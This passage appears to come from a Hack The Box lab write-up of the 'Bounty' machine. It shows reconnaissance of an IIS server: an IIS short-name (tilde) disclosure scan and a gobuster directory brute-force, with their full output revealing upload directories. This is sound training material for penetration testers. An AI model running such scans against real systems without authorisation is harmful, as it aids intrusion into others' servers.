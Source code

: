 Bit Weird. Now I dig up on HTB Forums and got a hint that I should look for IIS tilde character "~" vulnerability which is looking for a Short File Folder name disclosure.

---
#### Reminder 
When you deal with IIS, do check for the short file/folder name disclosure using [IIS Short Name Scanner](https://github.com/irsdl/IIS-ShortName-Scanner/tree/master/release) and under the release directory run the following command and identify the short names of directories and files. Following to that you can use more specific wordlists using Gobuster or Burp's Spider/Crawler to enumerate directories.

---

```
$ java -jar iis_shortname_scanner.jar 2 20 http://bounty.htb/
Scanning...
Testing request method: "OPTIONS" with magic part: "/~1/.rem" ...
Early result: the target is probably vulnerable.
Early result: identified letters in names > A,C,D,E,F,L,N,O,P,R,S,T,U,X
Early result: identified letters in extensions > A,C,P,S
Dir: ASPNET~1
Dir: UPLOAD~1
File: CSASPX~1.CS
File: TRANSF~1.ASP
[/] TRANSF~1.ASS
#IIS Short Name (8.3) Scanner version 2023.4 - scan initiated 2024/08/09 13:39:35
Target: http://bounty.htb/
|_ Result: Vulnerable!
|_ Used HTTP method: OPTIONS
|_ Suffix (magic part): /~1/.rem
|_ Extra information:
  |_ Number of sent requests: 571
  |_ Identified directories: 2
    |_ ASPNET~1
    |_ UPLOAD~1
  |_ Identified files: 2
    |_ CSASPX~1.CS
      |_ Actual extension = .CS
    |_ TRANSF~1.ASP
Finished in: 15 second(s)
```

Now I know that there is a directories with the name ASPNET~1 and UPLOAD~1. Let's run gobuster to enumerate directories starting with the word "UPLOAD".

```
$ gobuster dir -u http://bounty.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bounty.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/UploadedFiles        (Status: 301) [Size: 155] [--> http://bounty.htb/UploadedFiles/]
/uploadedFiles        (Status: 301) [Size: 155] [--> http://bounty.htb/uploadedFiles/]
/uploadedfiles        (Status: 301) [Size: 155] [--> http://bounty.htb/uploadedfiles/]
Progress: 220560 / 220561 (100.00%)
```